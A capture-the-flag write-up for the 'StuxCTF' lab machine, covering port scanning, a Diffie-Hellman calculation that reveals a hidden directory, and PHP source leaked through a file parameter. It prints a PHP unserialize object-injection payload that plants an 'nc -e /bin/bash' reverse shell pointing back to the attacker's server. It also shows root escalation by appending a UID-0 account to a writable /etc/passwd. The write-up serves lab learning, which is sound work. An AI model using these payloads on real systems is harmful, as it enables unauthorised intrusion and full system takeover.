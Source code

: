 ```yaml
---
title: StuxCTF 🧬
tags:
  - Linux
  - Python-Scripting
  - LFI
  - Decrypting
---
```

![](Pasted%20image%2020240531202235.png)

> *Even though this is a "Medium" machine, I found it a bit hard*

I started performing an Nmap scan:

```shell
nmap -sC -T4 -p- 10.10.114.31 > sC.txt

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-31 19:16 CEST
Nmap scan report for 10.10.114.31
Host is up (0.049s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   2048 e8:da:b7:0d:a7:a1:cc:8e:ac:4b:19:6d:25:2b:3e:77 (RSA)
|   256 c1:0c:5a:db:6c:d6:a3:15:96:85:21:e9:48:65:28:42 (ECDSA)
|_  256 0f:1a:6a:d1:bb:cb:a6:3e:bd:8f:99:8d:da:2f:30:86 (ED25519)
80/tcp open  http
| http-robots.txt: 1 disallowed entry 
|_/StuxCTF/
|_http-title: Default Page

Nmap done: 1 IP address (1 host up) scanned in 22.50 seconds
```

So I decided to take a look at the webpage:

![](Pasted%20image%2020240531202432.png)

As I found this, I took a look to the source code:

![](Pasted%20image%2020240531202503.png)

Here I found what it seemed to be some kind of variables to solve a problem.

Checking the hint on THM it seemed like [Diffie-Hellman key exchange](https://en.wikipedia.org/wiki/Diffie%E2%80%93Hellman_key_exchange)

![](Pasted%20image%2020240531202649.png)

So I created the following script:

```python
p=9975298661930085086019708402870402191114171745913160469454315876556947370642799226714405016920875594030192024506376929926694545081888689821796050434591251
g=7
a=330
b=450
gc=6091917800833598741530924081762225477418277010142022622731688158297759621329407070985497917078988781448889947074350694220209769840915705739528359582454617
gca=(gc**a)%p
gcab=(gca**b)%p

print(gcab)
print(str(gcab)[:128])
```

Which gave me this directory: `47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055`

So I searched for it:

![](Pasted%20image%2020240531202831.png)

As I didn't detect anything with [dirsearch 📁](/notes/Tools/dirsearch.md), I decided to look at the source code:

![](Pasted%20image%2020240531202937.png)

It gave me the hint `<!-- hint: /?file= -->`, so it seemed like some kind of LFI

I tried to fuzz it and didn't work, so I put the unique file that is detected by **dirsearch**, which is `index.php` and searched for it: `http://10.10.114.31/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/?file=index.php`

It printed some kind of hex code, which I decrypted using [Cyberchef](https://cyberchef.org/):

![](Pasted%20image%2020240531203241.png)

![](Pasted%20image%2020240531203322.png)

It was the script behind the `?file=`:

```html
<br />
error_reporting(0);<br />
class file {<br />
        public $file = "dump.txt";<br />
        public $data = "dump test";<br />
        function __destruct(){<br />
                file_put_contents($this->file, $this->data);<br />
        }<br />
}<br />
<br />
<br />
$file_name = $_GET['file'];<br />
if(isset($file_name) && !file_exists($file_name)){<br />
        echo "File no Exist!";<br />
}<br />
<br />
if($file_name=="index.php"){<br />
        $content = file_get_contents($file_name);<br />
        $tags = array("", "");<br />
        echo bin2hex(strrev(base64_encode(nl2br(str_replace($tags, "", $content)))));<br />
}<br />
unserialize(file_get_contents($file_name));<br />
<br />
<!DOCTYPE html><br />
    <head><br />
        <title>StuxCTF</title><br />
	<meta charset="UTF-8"><br />
        <meta name="viewport" content="width=device-width, initial-scale=1"><br />
        <link rel="stylesheet" href="assets/css/bootstrap.min.css" /><br />
        <link rel="stylesheet" href="assets/css/style.css" /><br />
    </head><br />
        <body><br />
        <nav class="navbar navbar-default navbar-fixed-top"><br />
          <div class="container"><br />
            <div class="navbar-header"><br />
              <button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar"><br />
                <span class="sr-only">Toggle navigation</span><br />
              </button><br />
              <a class="navbar-brand" href="index.php">Home</a><br />
            </div><br />
          </div><br />
        </nav><br />
        <!-- hint: /?file= --><br />
        <div class="container"><br />
            <div class="jumbotron"><br />
				<center><br />
					<h1>Follow the white rabbit..</h1><br />
				</center><br />
            </div><br />
        </div>            <br />
        <script src="assets/js/jquery-1.11.3.min.js"></script><br />
        <script src="assets/js/bootstrap.min.js"></script><br />
    </body><br />
</html><br />
```

I analyzed it in search of dome code vulnerability and I found that in `unserialize(file_get_contents($file_name));` the function `unserialize` let us to load any file on the Internet.
- I found [this documentation](https://notsosecure.com/remote-code-execution-php-unserialize) which explains more about this vulnerability

So, to gain RCE, I created the file `shell.php`:

```php
<?php
class file
{
 public $file = 'remote.php';
 public $data = '<?php shell_exec("nc -e /bin/bash YOUR_IP YOUR_PORT"); ?>';
}

echo (serialize(new file));

?>
```

Then I performed the following command:

```shell
php shell.php > shell.txt
```

After this I initialize a python server `python3 -m http.server 8090`

And then I search for my file (the `.txt` one) like: `view-source:10.10.114.31/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/?file=http://10.11.74.136:8090/shell.txt`

So once here, the file is uploaded and you can search it: `view-source:10.10.114.31/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/remote.php` 

> Take care of putting the name inside the php shell (in my case `remote.php`)

We've got a reverse shell:

![](Pasted%20image%2020240531204257.png)

And we found the user flag on the `/home/grecia` directory

![](Pasted%20image%2020240531204352.png)

I uploaded `linpeas` to scan for privilege escalation and found that the `/etc/passwd` was writable, so I did the following:

```
# On my machine
openssl passwd -1 -salt hacker hacker

# Then, on the /etc/passwd file I added at the end
hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash
```

![](Pasted%20image%2020240531204719.png)

After this, I logged in as the user `hacker` and got root access.

Got the root flag:

![](Pasted%20image%2020240531204821.png)

==Machine pwned==